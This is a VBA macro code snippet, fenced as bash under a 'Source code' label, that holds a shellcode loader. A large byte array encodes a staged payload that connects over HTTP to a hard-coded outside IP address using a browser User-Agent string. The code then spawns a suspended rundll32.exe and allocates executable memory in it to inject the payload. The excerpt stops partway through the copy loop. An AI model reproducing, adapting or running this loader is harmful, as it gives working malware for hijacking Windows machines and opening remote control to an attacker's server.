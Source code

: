 ```bash
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,-72,34,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,51,121,84,89,80,122,66,53,112,76,87,89,75,113,74,100,84,90,121,106,66,112,121,121,119,90,99,68,118,82,54,65,0,103,127,111,24, _
35,-49,-63,119,22,-20,-90,-2,-46,75,38,1,-88,-5,-4,60,115,-3,-65,-46,12,90,-3,42,119,-35,-11,57,-84,-47,-11,116,-25,48,-60,-70,5,57,-119,-96, _
-55,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,49,48,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,50,59,32,87,79,87,54,52,59,32,84,114,105,100,101,110,116, _
47,54,46,48,59,32,77,65,71,87,74,83,41,13,10,0,126,119,-63,-74,-127,53,116,88,93,48,-2,68,119,-22,29,-29,76,48,-111,45,37,-14,-110,-49, _
-61,-72,111,75,-102,47,-47,-120,91,-82,-34,-78,9,-81,-116,87,112,25,9,51,-109,17,-128,-27,61,-70,-49,0,-106,26,-112,-101,-33,65,82,38,-36,-77,-62,53, _
-31,60,108,-57,101,-49,-26,-50,84,48,36,21,-62,-60,1,-18,38,-120,-113,-94,-96,106,11,4,112,-24,41,-70,-5,33,55,-49,126,-99,-120,-84,-55,60,-113,-48, _
17,123,-7,-55,3,70,90,66,-53,79,-30,46,-121,-96,-11,75,-111,-28,-123,108,121,-80,57,104,26,-41,25,58,-93,65,-100,98,59,-79,-6,77,-50,120,102,-69, _
33,24,111,-30,-63,120,49,-32,-52,68,-111,-106,51,-126,-51,67,-13,-61,-26,33,38,122,-10,-25,-97,-5,44,101,74,93,-70,-103,9,-28,89,89,74,44,-88,-23, _
-97,107,-12,81,106,-25,-81,122,-56,-38,-31,-33,114,-117,100,44,70,-6,-82,85,-95,-126,-106,-52,121,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,56,49,46,55,48,46,49,51,46,50,49,57,0,0,1,-122,-96)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
```